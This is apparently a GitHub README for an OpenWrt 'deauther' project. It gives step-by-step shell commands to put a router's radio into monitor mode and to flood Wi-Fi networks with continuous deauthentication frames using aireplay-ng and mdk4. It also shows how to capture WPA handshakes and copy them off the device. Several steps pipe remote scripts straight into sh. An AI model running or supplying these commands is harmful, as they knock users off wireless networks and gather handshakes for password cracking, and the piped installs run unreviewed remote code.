 # openwrt deauther based on airplay-ng 
- Functions similar on kali
- Also it can capture WPA Handshakes

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```
# Mipsel_24kc only 
> Any Openwrt running in this processors is supported by [mdk4](https://downloads.openwrt.org/releases/23.05.5/targets/ramips/)
 - mt7620
 - mt7621
 - mt76x8
 - rt288x
 - rt305x
 - rt3883
```sh
opkg update && wget -O mdk4.ipk https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mdk4_4.2-5_mipsel_24kc.ipk && opkg install mdk4.ipk
```

## Auto install 
```sh

opkg update && wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/install.sh | sh
````

# Using aireplay-ng 
```sh
sh mon.sh && airodump-ng mon0
```
> ctrl + c
```sh
aireplay-ng --deauth 0 -a (Mac BSSID)
```
# Monitor Mode 
```sh
wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mon0.sh | sh
```

# Using mdk4
```sh
sh mon.sh && mdk4 mon0 d
```
## Manual
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`iw phy phy0 interface add mon0 type monitor`

`ip link set mon0 up`

`airodump-ng mon0`

`aireplay-ng mon0 --deauth 0 -a 32:AA:E4:18:90:45 --ignore-negative-one`

- -a | bssid -a (32:AA:E4:18:90:45)

## Export handshake or files from openwrt to local storage
> [!Tip]
> install SFTP server in both system in order that SCP to work
> Openwrt: opkg install openssh-sftp-server
> Linux/Termux: apt install openssh-sftp-server

- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Downloads
```

> [Hint!]
 - *.cap - export any name with .cap file format

